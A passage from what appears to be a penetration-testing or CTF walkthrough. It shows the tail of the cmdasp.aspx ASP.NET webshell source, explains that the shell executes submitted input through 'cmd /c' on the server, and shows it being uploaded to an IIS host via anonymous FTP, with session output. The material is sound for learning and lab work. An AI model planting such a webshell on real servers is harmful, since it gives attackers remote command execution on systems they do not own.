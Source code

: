 ```cs
}
</script>
<HTML>
<HEAD>
<title>awen asp.net webshell</title>
</HEAD>
<body >
<form id="cmd" method="post" runat="server">
<asp:TextBox id="txtArg" style="Z-INDEX: 101; LEFT: 405px; POSITION: absolute; TOP: 20px" runat="server" Width="250px"></asp:TextBox>
<asp:Button id="testing" style="Z-INDEX: 102; LEFT: 675px; POSITION: absolute; TOP: 18px" runat="server" Text="excute" OnClick="cmdExe_Click"></asp:Button>
<asp:Label id="lblText" style="Z-INDEX: 103; LEFT: 310px; POSITION: absolute; TOP: 22px" runat="server">Command:</asp:Label>
</form>
</body>
</HTML>

<!-- Contributed by Dominic Chell (http://digitalapocalypse.blogspot.com/) -->
<!--    http://michaeldaw.org   04/2007    -->
```

The webshell will:

 1. Take in input using a website form
 2. Run the input through `cmd /c` to execute on the server
 3. Return the output of the command

This sort of shell would be a perfect test.

*Note: A few quick edits can alter this to run PowerShell commands if that is preferable.  I've included instructions at the bottom of this guide.*


## Nobody -> Web: Anonymous FTP upload to webshell execution

To start, let's copy this into our current directory.
```bash
# cp /usr/share/webshells/aspx/cmdasp.aspx ./ttbcmd.aspx
```

We can use the FTP `put` command to upload it:
```shell
ftp> put ttbcmd.aspx
local: ttbcmd.aspx remote: ttbcmd.aspx
200 PORT command successful.
125 Data connection already open; Transfer starting.
226 Transfer complete.
1442 bytes sent in 0.00 secs (55.0079 MB/s)
ftp> dir
200 PORT command successful.
125 Data connection already open; Transfer starting.
03-18-17  01:06AM       <DIR>          aspnet_client
03-17-17  04:37PM                  689 iisstart.htm
02-21-20  07:05AM                 1442 ttbcmd.aspx
03-17-17  04:37PM               184946 welcome.png
226 Transfer complete.
```
